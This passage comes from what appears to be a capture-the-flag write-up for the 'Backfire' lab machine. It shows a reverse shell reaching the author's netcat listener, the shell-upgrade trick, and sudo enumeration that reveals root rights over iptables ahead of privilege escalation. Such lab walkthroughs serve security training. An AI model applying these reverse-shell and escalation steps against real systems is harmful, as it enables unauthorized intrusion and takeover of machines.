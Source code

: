 ![image-20250124163052440](/img/image-20250124163052440.png)

It connects to my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.49 58572
bash: cannot set terminal process group (8128): Inappropriate ioctl for device
bash: no job control in this shell
sergej@backfire:~/HardHatC2/HardHatC2Client$

```

I’ll upgrade the shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

sergej@backfire:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
sergej@backfire:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
sergej@backfire:~$

```

## Shell as root

### Enumeration

sergej has `sudo` permissions to run `iptables` and `iptables-save` as root on Backfire:

```

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save

```

### File Write
